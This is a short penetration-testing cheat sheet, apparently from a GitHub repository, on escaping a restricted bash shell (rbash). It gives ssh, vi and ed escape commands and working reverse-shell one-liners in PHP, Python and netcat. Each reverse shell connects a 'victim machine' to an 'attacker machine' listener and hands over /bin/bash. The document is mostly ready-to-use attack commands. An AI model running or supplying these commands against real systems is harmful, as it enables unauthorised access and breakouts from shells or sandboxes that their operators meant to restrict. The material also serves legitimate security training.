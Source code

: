 Get out of rbash
********************

check if the shell is rshell
##############################

.. code-block:: console

   echo $SHELL

rbash escape through ssh
###########################

We can escape the rbash through ssh by adding an extra argument.

.. code-block:: console

        ssh username@host/IP -t "bash --noprofile"

escape rbash through editors
###############################

vi
+++

You can escape rbash by opening the `vi` editor. We create a shell name variable and set our bash environment location.

.. code-block:: console

        vi
        :set shell=/bin/bash
        :shell
        export PATH=/bin:/usr/bin:$PATH

ed
++++

.. code-block:: console

   ed
   !'/bin/bash'
   pwd

escape rbash through reverse shell
#####################################

php
+++++

Attacker machine

.. code-block:: console

        nc -lvp 4545

victim machine

.. code-block:: console

   php -r '$sock=fsockopen("ip-address",port);exec("/bin/bash -i <&3 >&3 2>&3");'

python
++++++++++

attack machine

.. code-block:: console

        nc -lvp 4545

victim machine

.. code-block:: console

   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip-address",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

netcat
+++++++

attack machine

.. code-block:: console

   nc -lvp port-number

victim machine

.. code-block:: console

   nc  ip-address port-number -e /bin/bash

https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/   
